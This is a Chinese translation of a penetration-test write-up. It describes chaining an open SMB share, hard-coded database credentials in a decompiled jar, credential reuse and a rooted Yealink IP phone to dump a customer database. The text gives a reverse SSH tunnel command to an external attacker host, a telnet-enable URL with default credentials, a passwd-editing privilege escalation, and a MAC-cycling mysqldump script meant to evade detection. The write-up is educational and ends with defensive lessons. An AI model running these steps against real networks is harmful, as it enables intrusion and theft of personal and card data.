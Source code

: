 # 链接多个漏洞，泄漏超过 250GB 的 PIA

> 原文：<https://infosecwriteups.com/chaining-multiple-vulnerabilities-to-exfiltrate-over-250gb-of-pia-2d624f030ed1?source=collection_archive---------0----------------------->

这是我们几年前做的一次内部测试的记录，涉及几个小漏洞，但让我们成功地泄露了大量信息。

一切都是从我们所在的一个小型内部子网的 Nmap 扫描开始的。我们没有找到任何有希望的线索，除了一个暴露的 SMB 共享，这显然是一个开发人员在本地创建的，用于在计算机之间共享文件。扫描显示类似这样的东西。

![](img/316136b850d579983689c093990cc68e.png)

nmap 扫描的部分结果

我们成功地用 impacket 的 smbclient.py 检查了访问。

![](img/ede79aeebe340e66c770b4b3d6473794.png)

smbclient.py

我们找不到任何有用的明文信息或任何敏感数据。但是再看一眼，我们发现了一个有趣的文件:

![](img/2e47a327157a80a8a105c1577859ad5c.png)

自定义 jar 文件

这看起来像一个定制的 jar 文件。信息不会是纯文本的，但是我们继续用 java-decompiler ( `https://github.com/java-decompiler/jd-gui.git).`)反编译文件

我们克隆了存储库，编译了所有内容，并在 jar 文件中运行它:

![](img/0f49282da82747f55596b4415d84be16.png)

开始构建

![](img/eabd376118698c268e4722ec79b9675c.png)

打开结果文件

之后，java-decompiler 的窗口将会打开。此时，您唯一需要做的事情就是拖放您想要分析的编译好的 jar 文件。

![](img/f23fb905fb8af38a878d50419facaa9a.png)

Java 反编译程序

我不打算上传完整源代码的截图，但我们确实在其中发现了一些有趣的信息:

![](img/d3520eb54d2d5e752a9257878030a323.png)

数据库连接密码的源代码

![](img/e9278406bfc048a7d90187be124abfaa.png)

源代码中的数据库连接细节

我们兴奋地开始扫描那些 IP。令我们失望的是，他们都倒下了，没有数据库被发现。我们开始对相邻子网进行全端口扫描，希望它们能够重复使用凭据。几个小时后，我们找到了运行在 10.40.0.0/16 子网的端口 3033 上的 SQL server。

我们通过重复使用凭据进行连接。令我们惊讶的是，我们发现了超过 50 个与业务相关的表，数据超过 700GB(由于明显的原因而被删除)。

![](img/333f6a3b63b1149421e0bf0fc0dd3d72.png)

通过重复使用凭据危害数据库

为了让您对找到的信息量有个概念，它们是大约 1600 万个客户电子邮件地址:

![](img/83b18c66f086db1466eb0d8d4081abcf.png)

客户电子邮件地址

在另一个表中，我们发现了另外 1600 万笔交易的记录，包括客户数据、电子邮件地址和购买细节。另一个表有超过 20 万条记录，记录了完整的信用卡号。

这一切都很棒(至少对我们来说)，但圣灵降临节并没有到此结束。我们需要一种方法来泄漏这些信息。在全部 700GB 的数据中，大约有 270GB 的可用关键数据。但是我们需要证明拥有临时访问权限的内部攻击者能够破解这个。DB 服务器的硬件在运行查询方面非常出色，我们能够在不到几个小时的时间内分析大部分信息，但是当我们试图下载它时，我们确实受到了网络速度的限制。此外，每天向一台客户端计算机下载超过 200GB 的数据可能会触发一些 NIDS 规则，并警告他们存在危害。最后，这个共享只能从网络内部访问，这意味着我们需要一个类似反向 ssh 连接的东西，连接到一个公共的攻击者控制的服务器。

让我更好地解释这个 ssh 连接是如何工作的。通常，当您危害公司网络内部的设备时，您不能简单地启动该机器上的连接监听器。通常情况下，设备位于几个防火墙、NAT 网络等之后。阻止你从外面进入。绕过这一点的最简单的方法之一是启动一个反向 shell。这是因为连接来自内部，并到达您控制的外部服务器(通常允许出口流量，仅过滤入口流量)。但是这也有不太可靠的缺点。你不想要一个单一的连接，你想要一个类似服务/守护进程的东西，以防出现问题。此外，通过 msfvenom 生成的有效载荷不会像已经使用了很久的软件(类似 ssh 的东西)那样可靠。

你要做的就是使用一种叫做 ssh 隧道的 ssh 功能。基本上，您生成一个到外部的 ssh 连接，如下所示:

```
ssh -R 8080:127.0.0.1:22 -N -f user@remote.host
```

-N 指定你不想运行任何命令，只需要建立一个连接，而-f 是将进程发送到后台。这将在您可访问互联网的主机(remote.host)的端口 8080 上打开一个套接字。到该端口的任何连接都将被转发到受损机器的端口 22(ssh)。因此，在连接到 remote.host 后，您只需:

```
ssh -p 8080 compromiseduser@localhost
```

你将能够从公司网络外部访问被入侵的机器。

解释完这些，让我们继续进行 pentest。我们决定，我们需要找到一台 24/7 开机、安全性差且能访问网络的设备。这当然意味着物联网设备。

对于那些不熟悉这个概念的人来说，物联网是技术人员指通常不需要互联网接入就能工作的设备的一种方式。但是他们把它作为一个特性，而且通常安全性很差。想想像 Roombas、冰箱、咖啡机、电视等东西……(这个定义不是 100%准确，你可以在[https://en.wikipedia.org/wiki/Internet_of_things](https://en.wikipedia.org/wiki/Internet_of_things)上阅读更多关于物联网的信息)

扫描网络时，我们发现超过 100 台设备可以被定义为物联网设备。有 3 个主要群体:闭路电视摄像机，电视和 IP 电话。电视不是全天候的，所以它们不会工作。这些手机都是 Yealink 的，经过简单的研究，我们发现了多种可用的漏洞。

![](img/500445dba2a2c889180c6cb22c8bcb0e.png)

我们找到的型号是 yealink T20P。

![](img/d8be2c9a485bc5535a4835ad200bec5f.png)

Yealink 的可用漏洞

在阅读了[https://www.exploit-db.com/exploits/23572,](https://www.exploit-db.com/exploits/23572)之后，我们学习了一种启用 telnet 服务器的方法。一个隐藏页面，位于`http://<IP>/cgi-bin/ConfigManApp.com?Id=10.`

![](img/6dc2ab66e6eea48b7285d50a40ae2bf1.png)

Yealink 管理网页。

我们能够使用默认凭证 **admin:admin** 登录(物联网设备中的常见问题)。启用 telnet 服务器后，我们使用 admin/admin 登录电话，却发现 admin 用户与 root 用户不同。

![](img/e8d6d6659faf1e3a28cb991f8ea8027b.png)

登录到 telnet 服务器的管理员

为了连接到我们控制的公共实例，我们需要一个 ssh 连接。这意味着拥有对设备的根访问权限。大多数可用的利用都假设您可以打印影子文件，因此您拥有 root 访问权限，但是如果您看一看，就会发现每个人都拥有对影子文件的读取权限(不要问我们为什么要这样配置)。该设备没有我们正在寻找的 ssh 功能，所以我们必须安装新软件。这意味着我们需要 root 权限，并且只能是 root 权限。看到所有发现的漏洞，我们怀疑这个模型应该不是特别安全，我们发现了一个新的简单的权限提升。

如果您看一下前面的图像，您可以看到 shadow 文件对所有人都是可读的，并且归 root 所有，但是 passwd 文件由于某种原因实际上归 guest 帐户所有(我们发誓这是默认配置)。所以您实际上可以作为 guest:guest 登录，并编辑 passwd 文件以绕过影子哈希检查(您只需要删除第二个字段中的“x ”,就可以不用密码登录了)。

![](img/2b0e74ee31679ef9048a3b7d0cf40e7a.png)

根访问

在找到电话的根之后，我们必须为这个特定的 busybox 发行版静态编译一个版本的 dropbear(一个小型 ssh 服务器)。不幸的是，我无法再使用这部手机来重现这个过程，此外，这超出了本文的范围。这是一个漫长的过程，有很多尝试和错误。回想起来，如果让我再做一次，我可能会用考拉([https://github.com/mrschyte/pentestkoala](https://github.com/mrschyte/pentestkoala))这样的东西。

当 ssh 服务器工作时，我们想出了一个简单的 bash 脚本来绕过可能的 HIDS 系统。我们不想用同一个 IP 下载所有不同的数据库，以防止超过可能的下载阈值。在用 macchanger 做了一个快速测试和手动 DHCP 释放之后，我们验证了我们分配的 IP 依赖于我们的 mac 地址。所以我们用这个脚本下载了数据库:

```
#!/bin/bash
for i in importantdb1 importantdb2 importantdb3 importantdb4; do
 dhclient -r enp0s25
 sleep 10
 macchanger - random enp0s25
 dhclient enp0s25
 sleep 40
 mysqldump - verbose -u root -prootspi949 -h 10.40.59.10 -P 3033 $i >> /tmp/compromisedDb/$i.sql
done
```

为了安全起见，我们可能会在每个表下载中循环使用我们的 IP 地址，而不是在每个数据库中，但是这样做效果很好。

回顾这次测试，我们开发了一个

*   公共中小企业股份
*   未经混淆编译的二进制文件
*   凭证重用
*   默认密码
*   不安全的设备
*   网络 ids 规则配置不正确
*   缺少网络认证(802.1x 可以防止频繁的 IP 变更)

如果你单独看每一个，它们并不是你能找到的最严重的漏洞，但是把它们连接起来就可以完全妥协。希望这对你和我们一样有教育意义。